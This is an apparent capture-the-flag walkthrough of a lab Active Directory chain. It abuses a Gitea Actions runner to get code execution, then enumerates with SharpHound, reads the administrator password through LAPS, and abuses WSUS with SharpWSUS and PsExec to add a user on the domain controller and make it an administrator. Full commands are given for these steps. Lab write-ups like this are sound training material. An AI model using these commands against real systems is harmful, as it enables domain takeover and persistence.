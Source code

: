 # Tea (chain) (medium)

## port scan

10.10.178.198 srv.tea.vl

10.10.178.197 dc.tea.vl

![](<tea(chain)(medium)/walkthrough_20240413120505926.png>)

## service enumeration

![](<tea(chain)(medium)/walkthrough_20240413113404118.png>)

![](<tea(chain)(medium)/walkthrough_20240413113522341.png>)

![](<tea(chain)(medium)/walkthrough_20240413113553212.png>)

register a account, we can found a runner `SRV`

![](<tea(chain)(medium)/walkthrough_20240413113712898.png>)

## gitea runner abuse

so there have a runner, we will create a action let runner execute our evil code

![](<tea(chain)(medium)/walkthrough_20240413114809492.png>)

i will create a new repo with `.gitea/workflows/demo.yaml`

![](<tea(chain)(medium)/walkthrough_20240413114735058.png>)

add our evil job

![](<tea(chain)(medium)/walkthrough_20240413115436208.png>)

push!

![](<tea(chain)(medium)/walkthrough_20240413115806546.png>)

after push, we must enable actions at our repo

![](<tea(chain)(medium)/walkthrough_20240413115922959.png>)

just commit again with every change

![](<tea(chain)(medium)/walkthrough_20240413120135855.png>)

it works now

![](<tea(chain)(medium)/walkthrough_20240413120050458.png>)

we have a beacon!

![](<tea(chain)(medium)/walkthrough_20240413120108857.png>)

![](<tea(chain)(medium)/walkthrough_20240413120429876.png>)

## some enumeration

![](<tea(chain)(medium)/walkthrough_20240413123104618.png>)

![](<tea(chain)(medium)/walkthrough_20240413123224254.png>)

![](<tea(chain)(medium)/walkthrough_20240413123411154.png>)

![](<tea(chain)(medium)/walkthrough_20240413123426608.png>)

```bash
dotnet inline-execute /home/sh4n4c1/.sliver-client/aliases/sharp-hound-4/SharpHound.exe --zippassword backup123 --outputdirectory C:\windows\tasks
```

![](<tea(chain)(medium)/walkthrough_20240413125228716.png>)

![](<tea(chain)(medium)/walkthrough_20240413125603400.png>)

![](<tea(chain)(medium)/walkthrough_20240413125828982.png>)

![](<tea(chain)(medium)/walkthrough_20240413125953931.png>)

![](<tea(chain)(medium)/walkthrough_20240413130950135.png>)

![](<tea(chain)(medium)/walkthrough_20240413131822802.png>)

## read LAPS

in \_instal folder, there have a laps installer

![](<tea(chain)(medium)/walkthrough_20240413132909413.png>)

we can use `Get-LapsADPassword -Identity SRV -AsPlainText` read administrator password

![](<tea(chain)(medium)/walkthrough_20240413134516003.png>)

work

![](<tea(chain)(medium)/walkthrough_20240413134533715.png>)

## WSUS abuse

ther have a folder called `WSUS-Updates`

![](<tea(chain)(medium)/walkthrough_20240413134622113.png>)

get a administrator beacon and run sharpwsus inspect

![](<tea(chain)(medium)/walkthrough_20240413141221853.png>)

it show srv is wsus server, we can use

https://github.com/techspence/SharpWSUS to abuse wsus

we will push psexec (just allow ms sign), and add a user

```bash
C:\_install\SharpWSUS.exe create /payload:"c:\_install\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c \"net user shanacl Password123! /add\""
```

![](<tea(chain)(medium)/walkthrough_20240413153120191.png>)

then approve the request

```bash
C:\_install\SharpWSUS.exe approve /updateid:57d84ee8-c48d-41da-839b-200002f56996 /computername:dc.tea.vl /groupname:"pepepe"
```

![](<tea(chain)(medium)/walkthrough_20240413153212894.png>)

it works

![](<tea(chain)(medium)/walkthrough_20240413162055156.png>)

and the user at there

![](<tea(chain)(medium)/walkthrough_20240413162037905.png>)

now try again to add our evil user into administrators group

![](<tea(chain)(medium)/walkthrough_20240413162242774.png>)

![](<tea(chain)(medium)/walkthrough_20240413162342199.png>)

administrator shell!

![](<tea(chain)(medium)/walkthrough_20240413162820642.png>)
